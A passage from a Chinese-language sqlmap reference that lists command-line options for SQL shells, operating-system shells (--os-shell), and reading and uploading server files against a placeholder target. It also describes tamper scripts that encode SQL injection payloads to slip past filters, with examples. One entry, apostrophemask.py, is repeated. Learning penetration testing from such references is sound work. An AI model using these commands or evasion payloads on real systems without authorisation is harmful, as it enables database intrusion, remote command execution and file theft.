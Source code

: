         sqlmap.py -u http://target.com --sql-shell
        然后出现交互页面来运行自定义语句。
6. --os-shell,--os-cmd

     运行任意操作系统命令

       sqlmap.py -u http://target.com --os-shell
7. --file-read
    
    从数据库服务器中读取文件

        sqlmap.py -u http://target.com --file-read "C:/example.txt"
8. --file-write,--file-dest

     上传文件到数据库服务器中


## 三、temper 介绍
1. apostrophemask.py

         功能：对引号进行utf-8格式编码(%EF%BC%87)
         平台：All
         举例：1 AND '1'='1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871

2. apostrophenullencode.py

        功能：用非法的双unicode字符(%00%27)替换引号字符
        平台：All
        举例：1 AND '1'='1 ==> 1 AND %00%271%00%27=%00%271
3. appendnullbyte.py

         功能：在有效载荷结束位置加载零字节字符编码
         平台：Microsoft Access
         举例：1 AND 1=1 ==> 1 AND 1=1%00

4. base64encode.py

         功能：用base64格式进行编码
         平台：All
         举例：1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==

5. between.py

         功能：用between替换大于号（>）
         平台：Mssql2005、MySQL 4/5.0/5.5、Oracle 10g、PostgreSQL 8.3/8.4/9.0
         举例：1 AND A > B --  ==> 1 AND A NOT BETWEEN 0 AND B  --
         1 AND A = B --  ==> 1 AND A BETWEEN B AND B --

6. bluecoat.py

         功能：对SQL语句替换空格字符为(%09)，并替换"="--->"LIKE"
         平台：MySQL 5.1, SGOS
         举例：SELECT username FROM users WHERE id = 1 ==> SELECT%09username FROM%09users WHERE%09id LIKE 1

7. apostrophemask.py

         功能：用utf-8格式编码引号(如：%EF%BC%87)
         平台：All
         举例：1 AND '1'='1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
